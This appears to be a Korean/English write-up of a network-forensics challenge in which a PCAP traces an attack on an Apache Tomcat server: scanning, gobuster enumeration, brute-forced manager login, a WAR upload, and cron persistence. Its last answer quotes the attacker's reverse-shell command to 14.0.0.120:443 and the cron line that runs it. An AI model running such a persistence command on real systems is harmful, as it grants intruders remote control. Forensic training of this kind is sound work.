# Tomcat Takeover

## 목차

[Questions 1](#q1)

[Questions 2](#q2)

[Questions 3](#q3)

[Questions 4](#q4)

[Questions 5](#q5)

[Questions 6](#q6)

[Questions 7](#q7)

[Questions 8](#q8)

# Scenario
The SOC team has identified suspicious activity on a web server within the company's intranet. To better understand the situation, they have captured network traffic for analysis. The PCAP file may contain evidence of malicious activities that led to the compromise of the Apache Tomcat web server. Your task is to analyze the PCAP file to understand the scope of the attack.

SOC 팀은 회사 인트라넷 내 웹 서버에서 의심스러운 활동을 발견했습니다. 상황을 더 정확히 파악하기 위해 네트워크 트래픽을 분석하기 위해 캡처했습니다. PCAP 파일에는 Apache Tomcat 웹 서버 침해로 이어진 악성 활동의 증거가 포함되어 있을 수 있습니다. 여러분의 임무는 PCAP 파일을 분석하여 공격 범위를 파악하는 것입니다.

# 문제 파일

# 개념 정리

# Questions

## Q1
Given the suspicious activity detected on the web server, the PCAP file reveals a series of requests across various ports, indicating potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

웹 서버에서 의심스러운 활동이 감지된 것을 감안할 때, PCAP 파일은 다양한 포트에서 일련의 요청을 감지하여 잠재적인 스캐닝 활동을 시사합니다. 서버에서 이러한 요청을 시작한 소스 IP 주소를 알려주시겠습니까?

### Answers
14.0.0.120

### 분석
의심되는 ip는 2개가 있다.

1. 10.0.0.115
2. 14.0.0.120

서버 ip는 10.0.0.112로 보인다.

10.0.0.115의 경우 url에서 디렉토리에 접근할 때 200 OK 패킷만 확인된다.



 14.0.0.120은 수많은 404 Not Found 패킷을 확인할 수 있었다. 따라서 공격자는 14.0.0.120으로 보이며 디렉터리 스캐닝을 진행한 것 같다.



사용한 와이어 샤크 필터링은 `http and ip.addr == 14.0.0.120`이다.

## Q2
Based on the identified IP address associated with the attacker, can you identify the country from which the attacker's activities originated?

공격자와 연관된 IP 주소를 기반으로 공격자의 활동이 시작된 국가를 식별할 수 있습니까?

### Answers
china

### 분석
iplocation에서 검색해보면 된다.



## Q3
From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel?

PCAP 파일에서 공격자의 능동 스캔으로 인해 여러 개의 열린 포트가 감지되었습니다. 이 포트 중 웹 서버 관리자 패널에 접근할 수 있는 포트는 무엇입니까?

### Answers
8080

### 분석
http 프로토콜 중 200 OK 가 출력된 패킷을 찾아보면 관리자 패널에 접근할 수 있는 것으로 보이는 디렉토리를 확인할 수 있다.



필터링은 `http and ip.addr == 14.0.0.120 and http.response.code == 200` 사용.

## Q4
Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?

서버에서 열린 포트가 발견된 후, 공격자가 웹 서버의 디렉터리와 파일을 열거하고 탐색하려 시도한 것으로 보입니다. 분석 결과, 공격자가 이 열거 과정을 도운 도구는 무엇이라고 생각하십니까?

### Answers
gobuster

### 분석
200 OK 패킷으로 응답한 공격자의 요청 패킷에서는 User-agent가 OS 정보, 웹 브라우저 정보 등이 함께 날라온다. 



하지만 404 not found 패킷으로 응답한 공격자의 요청 패킷에서는 User-agent에서 상용된 공격 도구를 확인할 수 있다.



## Q5
After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?

공격자는 웹 서버의 디렉토리를 열거하려는 시도 후, 관리 인터페이스를 식별하기 위한 수많은 요청을 했습니다. 공격자가 발견한 관리자 패널과 관련된 특정 디렉토리는 무엇입니까?

### Answers
/manager

### 분석
공격자가 발견한 관리자 패널과 관련된 디렉토리는 /manager 이다.



## Q6
After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?

공격자는 관리자 패널에 접속한 후 로그인 정보를 무차별 대입 공격(brute-force)으로 빼내려고 시도했습니다. 공격자가 로그인에 사용한 정확한 사용자 이름과 비밀번호를 확인할 수 있을까요?

### Answers
admin:tomcat

### 분석
공격자는 무차별 대입 공격으로 관리자 계정을 확보하고자 했다.



최종적으로 로그인에 성공한 계정은 `admin:tomcat` 이다.



## Q7
Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

관리자 패널에 침입한 공격자는 리버스 셸을 구축하기 위해 파일을 업로드하려고 시도했습니다. 캡처된 데이터에서 이 악성 파일의 이름을 확인할 수 있습니까?

### Answers
JXQOZY.war

### 분석
업로드 된 파일의 이름은 `JXQOZY.war`이다.



## Q8
After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

공격자는 서버에 리버스 셸을 성공적으로 구축한 후, 손상된 시스템에서의 지속성을 확보하려고 했습니다. 분석 결과를 통해 공격자가 자신의 존재를 유지하기 위해 실행하도록 예약된 구체적인 명령을 파악할 수 있습니까?

### Answers
`/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`

### 분석
객체 내보내기로 `JXQOZY.war` 파일을 확인해봤다.




파일에 아무 내용도 보이지 않는다.

다시 패킷을 확인해보면 공격자가 파일 업로드를 진행한 후, 해당 파일에 접근한다.



이후 해당 서버의 쉘을 획득한 것으로 보인다. (whoami, cd /tmp, pwd 등 명령어들이 TCP 패킷에서 확인됐다.)



그러다가 이번 문제의 답인 리버스 쉘을 열기 위해서 cron 테이블에 리버스 쉘 명령어를 등록한다. (크론은 특정 작업을 예약된 시간에 반복적으로 실행하도록 설정하는 파일이다.)



해당 쉘은 다음과 같다.

```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron
```